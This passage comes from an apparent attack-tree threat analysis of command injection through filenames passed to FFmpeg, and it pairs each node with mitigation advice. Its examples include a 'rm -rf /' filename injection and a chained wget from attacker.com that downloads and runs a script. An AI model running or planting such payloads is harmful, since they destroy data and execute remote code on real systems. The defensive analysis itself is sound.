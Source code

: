 * **Filename Injection:**  `; rm -rf / ;` (Attempts to delete all files on the system - *dangerous example, do not execute*)
* **Command Chaining:** `input.mp4; wget http://attacker.com/malicious_script.sh -O /tmp/malicious_script.sh && bash /tmp/malicious_script.sh` (Downloads and executes a malicious script)
* **Output Redirection:** `input.mp4 > /tmp/output.txt` (Redirects FFmpeg output to a file, potentially overwriting important files if the attacker controls the output filename).

**Mitigation Strategies (Specific to Node 4.2):**
* **Input Sanitization (Crucial):**  Implement robust input sanitization to remove or escape shell metacharacters from user input.
* **Output Encoding/Escaping (Crucial):**  Properly escape user input when constructing shell commands. Use shell escaping functions provided by your programming language or libraries.
* **Content Security Policy (CSP) (Web Applications):**  While not directly preventing command injection, CSP can help mitigate the impact of successful injection by limiting the actions an attacker can take (e.g., preventing execution of inline scripts if JavaScript injection is also possible).

---

#### 4.2.1. Control Filenames/Paths Passed to FFmpeg [HIGH-RISK PATH]

**Description:** This node focuses on a common and easily exploitable injection vector: manipulating filenames and file paths that are passed as arguments to FFmpeg commands.

**Attack Vector:** Applications often allow users to specify input and output filenames or paths for media processing. If these filenames or paths are directly incorporated into FFmpeg commands without sanitization, attackers can inject malicious commands within these filename strings.

**Why High-Risk:** Filenames and paths are frequently user-controlled in web applications and other software.  Users often need to specify where input files are located and where output files should be saved. This makes filenames and paths prime targets for command injection attacks.

**Common Scenarios:**
* **File Uploads:**  The application uses the uploaded filename as input to FFmpeg.
* **File Browsing/Selection:** Users select files from the server's filesystem, and the selected paths are used in FFmpeg commands.
* **Output Filename Specification:** Users can specify the desired output filename and path.

**Mitigation Strategies (Specific to Node 4.2.1):**
* **Filename/Path Validation and Whitelisting:**  Implement strict validation for filenames and paths.
    * **Whitelist Allowed Characters:**  Only allow alphanumeric characters, underscores, hyphens, and periods in filenames.
    * **Path Validation:**  If paths are used, validate that they are within expected directories and do not contain directory traversal sequences (e.g., `../`).
* **Canonicalization:**  Canonicalize paths to resolve symbolic links and ensure they point to the intended locations.
* **Avoid User-Controlled Paths if Possible:**  If feasible, generate filenames and paths programmatically instead of relying on user input. Use temporary directories for processing and move files to their final destination after validation.

---

#### 4.2.1.1. Inject Shell Commands in Filename Parameters [CRITICAL NODE] [HIGH-RISK PATH]

